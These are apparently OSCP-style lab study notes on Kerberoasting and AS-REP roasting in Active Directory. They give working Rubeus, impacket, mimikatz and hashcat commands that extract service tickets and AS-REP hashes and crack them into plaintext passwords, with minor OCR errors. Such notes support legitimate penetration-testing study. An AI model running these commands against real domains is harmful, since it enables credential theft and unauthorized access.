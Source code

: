 ### Manual [Kerberoasting] effort of requesting the service ticket, exporting it, and cracking it by using the tgsrepcrack.py Python script (Kerberoasting)
- method 1
```bash
#automatically find kerberoastable users  in targeted Domain
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast

#crack hash using hashcat 13100, TGS-REP, output is plaintext password of kerberoastable account
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

- method 2 in Kali
```bash
#ip of DC (-dc-ip), credential of domain user (corp.com/pete), obtain TGS (-request)
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete

#crack hash using hashcat 13100
sudo hashcat -m 13100 hashes.kerberoast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

- method 2 in Windows
```bash
#get SPN that you want to target
impacket-GetUserSPNs exam.com/apachesvc -dc-ip 172.16.1xx.100

#requesting TGS ticket, i.e. .kirbi
PS C:\Users\offsec> Add-Type -AssemblyName System. IdentityModel
PS C:\Users\offsec> New-Object System. IdentityModel. Tokens. KerberosRequestorSecurityToken -ArgumentList 'SPN'
        PS C:\Users\offsec> New-Object System. IdentityModel. Tokens. KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com'
mimikatz # kerberos :: list /export

#crack hash using tgsrepcrack.py
/usr/share/kerberoast/tgsrepcrack.py wordlist.txt 2-40a50000-offsec@HTTP\~CorpWebServer.corp.com-CORP.COM.kirbi
#crack hash using kirbi2john.py
python3 kirbi2john.py /root/pen200/exercise/ad/sgl.kirbi
```

### Targeted Kerberoasting
- Condition: have GenericWrite or GenericAll permissions on another AD user account
- then, purposely set SPN for the targeted user
- then kerberoast the account
- then crack the hash using hashcat to get the clear password
- after attack, REMEMBER to delete the SPN

### AS-REP roasting
- Find user account with user account option "Do not require Kerberos preauthentication" ENABLED, then obtain their password thru AS-REP hashes
#### on Kali
```bash
# [KALI] find users (not user1) who "Do not require Kerberos preauthentication"
impacket-GetNPUsers -dc-ip 192.168.50.70 -request -outputfile hashes.asreproast corp.com/user1

# [KALI] hashcat with option 18200 for AS-REP, to obtain the plaintext password of user who "Do not require Kerberos preauthentication"
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r usr/share/hashcat/rules/best64.rule --force
```
#### on windows (use Rubeus)